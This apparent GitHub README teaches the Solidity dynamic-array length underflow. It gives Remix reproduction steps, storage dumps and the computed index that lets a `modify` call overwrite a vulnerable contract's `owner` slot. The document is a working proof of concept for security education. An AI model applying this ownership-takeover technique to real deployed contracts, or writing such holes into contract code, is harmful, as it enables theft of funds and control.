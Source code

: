 # Array length underflow. 

## Description:
The storage for a contract is addressed by 256-bit pointers. All storage 
variables for the contract are stored at different offsets in this single memory space. Every variable occupies a 32-byte 
"slot" in storage that is allocated in order of the variable declaration, starting at address 0. The first 32-byte 
variable will be at address 0, the second at address 1, and so on. Because mappings and dynamic arrays have fluctuating 
sizes, their contents cannot be stored inline in the slots. To solve this, hashing is used.                                                                                       

* In the case of a dynamic array, the reserved slot contains the length of the array as a uint256, and the array data 
itself is located sequentially at the address keccak256(p). Again, the chances of a collision, even for large arrays, 
are so small that they can be ignored.

In general, user-provided data cannot influence storage locations without going through the keccak256 hash function, 
the output of which is infeasible to influence. However, there is one exception: Dynamic arrays are stored sequentially 
starting at their hashed offset. If the index into this array is under attacker control, then the storage address is 
also controlled, within the bounds of the array. Of course, realistic array sizes will be insignificant compared to the 
keccak256 range, but the array length has uint256 type. So, as [others](https://github.com/pertsev/solidity_tricks/tree/master/Underflow) 
it can be (over|under)flowed by `array.length--` e.g. 

[Solidity documentation about memories](http://solidity.readthedocs.io/en/develop/miscellaneous.html#layout-of-state-variables-in-storage)

[Example inspired by MerdeToken](https://github.com/Arachnid/uscc/tree/master/submissions-2017/doughoyte)

### To reproduce:

1. Copy-paste `arrayLengthUnderflow.sol` to remix (or use `Connect to localhost` feature) and deploy `Array` contract. 
2. See Storage memory at debugger: 
```
{
   "0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563":{
      // Slot for array length
      "key":"0x0000000000000000000000000000000000000000000000000000000000000000",
      "value":"0x02"
   },
   "0x510e4e770828ddbf7f7b00ab00a9f6adaf81c0dc9cc85f1f8249c256942d61d9":{
      // first item of array (notice "key" and "0x290d..." above)
      "key":"0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563",
      "value":"0xaa"
   },
   "0x6c13d8c1c5df666ea9ca2a428504a3776c8ca01021c3a1524ca7d765f600979a":{
      // second item of array (notice "key" and "0x290d...63" above)
      "key":"0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e564",
      "value":"0xbb"
   },
   "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6":{
      // owner
      "key":"0x0000000000000000000000000000000000000000000000000000000000000001",
      "value":"0xca35b7d915458ef540ade6068dfe2f44e8fa733c"
   }
}
```
3. Call `underflow` function 3 times and see Storage: 
```
{
   "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6":{
      // owner
      "key":"0x0000000000000000000000000000000000000000000000000000000000000001",
      "value":"0xca35b7d915458ef540ade6068dfe2f44e8fa733c"
   },
   "0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563":{
      // array length
      "key":"0x0000000000000000000000000000000000000000000000000000000000000000",
      "value":"0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff"
   },
   "0x3a93c8bac389ae1de2d290d3fe962d3c151e3a269221b7341e4a601c50c12d94":{
      // last array elem (notice "0x29...63" and "0x29...62" above)
      "key":"0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e562",
      "value":"0x0000000000000000000000000000000000000000000000000000000000000000"
   }
}
```
4. Let's overwrite `owner`? Call `modify` with that args:
`"0xd6f21326ab749d5729fcba5677c79037b459436ab7bff709c9d06ce9f10c1a9e", "0xdeadbeef"`
And see storage now:
```
{
   "0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563":{
      "key":"0x0000000000000000000000000000000000000000000000000000000000000000",
      "value":"0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff"
   },
   "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6":{
      //owner!
      "key":"0x0000000000000000000000000000000000000000000000000000000000000001",
      "value":"0x00000000000000000000000000000000000000000000000000000000deadbeef"
   }
}
```

Stop. How have you known the index `"0xd6f21326ab749d5729fcba5677c79037b459436ab7bff709c9d06ce9f10c1a9e"`?
Ok. Check following Python code to clarification:
```
        //array length   //sha3(0x00)                                                         //owner's slot number
>>> hex(2**256         - 0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563 + 1                    )
'0xd6f21326ab749d5729fcba5677c79037b459436ab7bff709c9d06ce9f10c1a9eL'
```